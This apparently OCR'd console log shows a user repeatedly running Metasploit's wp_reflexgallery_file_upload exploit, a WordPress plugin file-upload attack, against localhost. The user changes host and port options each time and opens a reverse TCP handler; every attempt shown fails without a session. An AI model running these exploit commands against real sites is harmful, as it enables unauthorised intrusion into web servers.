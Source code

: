           [-] Exploit failed: One or more options failed to validate: RHOSTS.
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOSTS localhost:8080
          RHOSTS => localhost:8080
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

          [-] Exploit failed: One or more options failed to validate: RHOSTS.
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOSTS localhost
          RHOSTS => localhost
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
          [*] Exploiting target {:address=>"0.0.0.1", :hostname=>"localhost"}

          [-] Exploit failed: One or more options failed to validate: LHOST.
          [*] Exploiting target {:address=>"127.0.0.1", :hostname=>"localhost"}
          [-] Exploit failed: One or more options failed to validate: LHOST.
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set LHOST localhost
          LHOST => localhost
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
          [*] Exploiting target {:address=>"0.0.0.1", :hostname=>"localhost"}

          [!] You are binding to a loopback address by setting LHOST to ::1. Did you want ReverseListenerBindAddress?
          [*] Started reverse TCP handler on ::1:4444 
          [-] Exploit aborted due to failure: unknown: Server did not respond in an expected way
          [*] Exploiting target {:address=>"127.0.0.1", :hostname=>"localhost"}
          [!] You are binding to a loopback address by setting LHOST to ::1. Did you want ReverseListenerBindAddress?
          [*] Started reverse TCP handler on ::1:4444 
          [-] Exploit aborted due to failure: unknown: Server did not respond in an expected way
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set LHOST 127.0.0.1
          LHOST => 127.0.0.1
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOSTS 127.0.0.1
          RHOSTS => 127.0.0.1
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

          [!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
          [*] Started reverse TCP handler on 127.0.0.1:4444 
          [-] Exploit aborted due to failure: unknown: Server did not respond in an expected way
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set LPORT 8080
          LPORT => 8080
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RPORT 8080
          RPORT => 8080
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

          [!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
          [-] Handler failed to bind to 127.0.0.1:8080:-  -
          [-] Handler failed to bind to 0.0.0.0:8080:-  -
          [-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOSTS locahost
          RHOSTS => locahost
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set LHOST localhost
          LHOST => localhost
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
